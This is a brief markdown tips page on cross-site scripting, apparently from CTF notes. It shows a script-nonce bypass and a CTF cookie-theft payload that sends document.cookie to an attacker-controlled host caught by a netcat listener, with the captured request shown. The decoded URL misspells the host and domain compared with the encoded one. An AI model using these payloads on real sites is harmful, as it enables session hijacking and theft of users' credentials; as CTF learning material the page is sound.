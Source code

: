 # XSS
XSS is cross-sit scripting. This page just lists some tips and snippets of code:
- [Check for script attributes](#check-for-script-attributes)
- [Intercept a cookie](#intercept-a-cookie)

## Check for script attributes
When testing whether a site is vulnerable to XSS, you may try something like:
```
https://some.vuln.site?name=<script>alert(1)</script>
```
You can see your script code in the page, but no alert appeared. Check whether other scripts on the page have an attribute that may be needed to execute scripts. For example:
```
http://some.vuln.site/?name=<script%20nonce=LRGWAXOY98Es0zz0QOVmag==>alert(1)</script>
```
## Intercept a cookie
In one CTF, there was an Admin server that could send a cookie to another server, and we needed to intercept that cookie.

To intercept it, we set up a *netcat* listener, so we could send the cookie to it:
```
$ nc -nlvk 8080
Listening on 0.0.0.0 8080
```
Now we went to the admin server for the challenge, and gave it a URL that would visit the target site, get the cookie and send it to us in a *GET* variable:
```
https://some.vuln.site/?name=<script%20nonce%3DLRGWAXOY98Es0zz0QOVmag%3D%3D>var%20a%3Ddocument.cookie%3B%20document.location%3D%60http:%2F%2Fcr4ck3rs.com:8080%2F%3Fc%3D%24%7Ba%7D%60<%2Fscript>
```
Without the URL encoding, this is:
```
https://some/vuln.site/?name=<script nonce="LRGWAXOY98Es0zz0QOVmag==">var a=document.cookie; document.location=`http://cr4ckers.com:8080/?c=${a}`</script>
```
In the *netcat* listener, we see something like this:
```
Connection received on 35.203.246.8 20340
GET /?c=secret=4b36b1b8e47f761263796b1defd80745 HTTP/1.1
Host: cr4ck3rs.com:8080
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/89.0.4389.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
```
With the cookie contents on the *GET* line.